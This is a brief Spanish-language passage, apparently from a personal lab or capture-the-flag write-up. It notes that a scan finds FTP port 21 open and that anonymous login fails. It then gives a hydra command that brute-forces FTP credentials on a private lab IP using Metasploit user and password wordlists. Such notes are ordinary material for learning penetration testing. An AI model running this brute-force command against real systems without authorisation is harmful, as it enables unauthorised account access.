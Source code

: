 Hacemos un escaneo y vemos que el puerto 21 está abierto:
![[Pasted image 20230727153653.png]]
Pero no permite el login como anonymous:
![[Pasted image 20230727153713.png]]
Por tanto hacemos ataque de fuerza bruta usando diccionarios de metasploit con hydra:
```bash
hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.2.25.40 ftp
```
![[Pasted image 20230727154835.png]]